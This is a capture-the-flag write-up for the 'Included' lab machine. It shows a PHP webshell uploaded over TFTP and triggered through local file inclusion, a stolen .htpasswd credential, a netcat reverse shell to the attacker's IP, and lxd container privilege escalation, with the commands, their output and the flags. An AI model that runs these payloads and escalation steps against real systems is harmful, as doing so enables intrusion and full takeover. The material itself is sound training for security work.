 # Included

## ip

target: 10.129.103.185

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.103.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-25 01:35 EST
Nmap scan report for 10.129.103.185
Host is up (0.30s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.51 seconds
```

```bash
└─$ sudo nmap -sU 10.129.103.185                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-25 01:59 EST
Stats: 0:07:15 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 44.44% done; ETC: 02:15 (0:08:49 remaining)
Stats: 0:16:03 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 97.81% done; ETC: 02:15 (0:00:21 remaining)
Nmap scan report for 10.129.103.185
Host is up (0.31s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 1017.39 seconds

```

## II. use metasploit to upload file through tftp => php simple-backdoor

google search result: tftp default folder is `/var/lib/tftpboot/`

use msfconsole to upload file:

```bash
msf6 > use auxiliary/admin/tftp/tftp_transfer_util
msf6 auxiliary(admin/tftp/tftp_transfer_util) > set RHOST 10.129.103.185
msf6 auxiliary(admin/tftp/tftp_transfer_util) > set FILENAME /usr/share/webshells/php/simple-backdoor.php
msf6 auxiliary(admin/tftp/tftp_transfer_util) > run

[*] Sending '/usr/share/webshells/php/simple-backdoor.php' to 10.129.103.185:69 as 'simple-backdoor.php'
[+] 10.129.103.185:69 WRQ accepted, sending the file.
[+] 10.129.103.185:69 Sending 328 bytes (1 blocks)
[+] 10.129.103.185:69 Transferred 328 bytes in 1 blocks, upload complete!
[*] 10.129.103.185:69 TFTP transfer operation complete.
[*] Auxiliary module execution completed
```

upload `simple-backdoor.php` and not `php-reverse-shell.php` because there is no reverse connection to attacker machine if using reverse-shell.

```http
GET /?file=/var/lib/tftpboot/simple-backdoor.php&cmd=whoami HTTP/1.1

HTTP/1.1 200 OK

<pre>www-data
</pre>
```

## III. normal user credentials

```http
GET /?file=/var/lib/tftpboot/simple-backdoor.php&cmd=cat+.htpasswd HTTP/1.1

HTTP/1.1 200 OK

<pre>mike:Sheffield19
</pre>
```

## IV. php-simple-backdoor to full interactive ttys

1. simple-backdoor to reverse shell
    - create payload using msfvenom: `msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.15.248 LPORT=4242`

    ```bash
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 98 bytes
    mkfifo /tmp/sgiigz; nc 10.10.15.248 4242 0</tmp/sgiigz | /bin/sh >/tmp/sgiigz 2>&1; rm /tmp/sgiigz
    ```

    - send payload via simple-backdoor:

    ```bash
    GET /?file=/var/lib/tftpboot/simple-backdoor.php&cmd=mkfifo%20%2ftmp%2fsgiigz%3b%20nc%2010.10.15.248%204242%200%3c%2ftmp%2fsgiigz%20%7c%20%2fbin%2fsh%20%3e%2ftmp%2fsgiigz%202%3e%261%3b%20rm%20%2ftmp%2fsgiigz HTTP/1.1
    ```

    - result:

    ```bash
    └─$ nc -lvp 4242
    listening on [any] 4242 ...
    10.129.103.185: inverse host lookup failed: No address associated with name
    connect to [10.10.15.248] from (UNKNOWN) [10.129.103.185] 41652
    whoami
    www-data
    ```

    - reverse shell problem:

    ```bash
    whoami
    www-data
    su mike
    su: must be run from a terminal
    ```

2. reverse shell to full interactive ttys

    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`:

    ```bash
    whoami
    www-data
    su mike
    su: must be run from a terminal
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@included:/var/www/html$ su mike 
    su mike
    Password: Sheffield19
    mike@included:/var/www/html$ id
    id
    uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
    ```

## user flag

```bash
mike@included:/var/www/html$ cat /home/mike/user.txt
cat /home/mike/user.txt
a56ef91d70cfbf2cdb8f454c006935a1
```

## V. privilege escalation via lxd

poc: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2>

attacker:

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ git clone https://github.com/saghul/lxd-alpine-builder

┌──(kali㉿kali)-[~/Documents]
└─$ cd lxd-alpine-builder/

┌──(kali㉿kali)-[~/Documents/lxd-alpine-builder]
└─$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

┌──(kali㉿kali)-[~/Documents/lxd-alpine-builder]
└─$ sudo ./build-alpine -a i686
[sudo] password for kali:

┌──(kali㉿kali)-[~/Documents/lxd-alpine-builder]
└─$ git status

Untracked files:
  (use "git add <file>..." to include in what will be committed)
        alpine-v3.8-i686-20230225_0943.tar.gz

┌──(kali㉿kali)-[~/Documents/lxd-alpine-builder]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

victim:

- `wget --recursive --no-parent http://10.10.15.248/alpine-v3.8-i686-20230225_0943.tar.gz`
- `lxc image import ./alpine*.tar.gz --alias myimage`
- `lxd init`
- `lxc init myimage mycontainer -c security.privileged=true`
- `lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true`
- `lxc start mycontainer`
- `lxc exec mycontainer /bin/sh`

## root flag

```bash
~ # ^[[49;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
c693d9c7499d9f572ee375d4c14c7bcf

```

## Task

Task 1: What service is running on the target machine over UDP?: `tftp`

Task 2: What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?: `Local File Inclusion`

Task 3: What is the default system folder that TFTP uses to store files?: `/var/lib/tftpboot/`

Task 4: Which interesting file is located in the web server folder and can be used for Lateral Movement?: `.htpasswd`

Task 5: What is the group that user Mike is a part of and can be exploited for Privilege Escalation?: `lxd`

Task 6: When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?: `alpine`

Task 7: What flag do we set to the container so that it has root privileges on the host system?: `security.privileged=true`

Task 8: If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?: `/mnt/root/`

Submit user flag: done

Submit root flag: done

## References

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic>

<https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2>
